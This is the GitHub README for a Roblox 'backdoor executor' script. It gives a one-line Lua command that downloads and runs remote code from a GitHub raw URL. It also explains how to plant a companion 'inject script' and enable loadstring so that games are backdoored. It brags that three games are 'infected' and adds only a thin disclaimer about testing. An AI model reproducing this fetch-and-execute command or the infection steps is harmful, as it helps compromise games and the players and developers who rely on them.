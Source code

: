 # vinchiqqq-SS
```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/vinchiqqq-byte/vinchiqqq-SS/refs/heads/main/%40vinchiqqq%20SS.lua'))()
```
![](https://raw.githubusercontent.com/vinchiqqq-byte/vinchiqqq-SS/refs/heads/main/Screenshot_20250913_223717_Roblox.jpg)
A roblox backdoor executor✅️
-
This script scans the game for a remote called "G7M2X9B4P8QF1LD" in the game. Created by an infect script.

⚠️DISCLAIMER⚠️
-
I don't consider user to exploit, hack any game. Use this only for testing.

I provide you a tutorial and infection script✅️
-
So. First download the "vinchiqqq SS.lua" file, and execute this script
in YOUR game. Okay so normally click the "inject" button then 
check for notifications it will say something like "Remote not found".

How to infect YOUR game❔❔️
-
Download file named "inject script.lua" and copy the script. Now, create
a ServerScript (or just script) in the ServerScriptStorage and paste there the inject script. Now when our
game is infected, we take one more step. Click on the ServerScriptService
open up properties, and turn on "Enable Loadstring", click OK. And boom!
Your game is infected with backdoor. If it still doesn't work create "infected"
remote manually in the ReplicatedStorage.

🎲CURRENT STATS
-
Lines - 303

Infected Games - 3

UPDATE 2.0
-
• Reworked the ui

• Improved execution

• Improved injection/check 
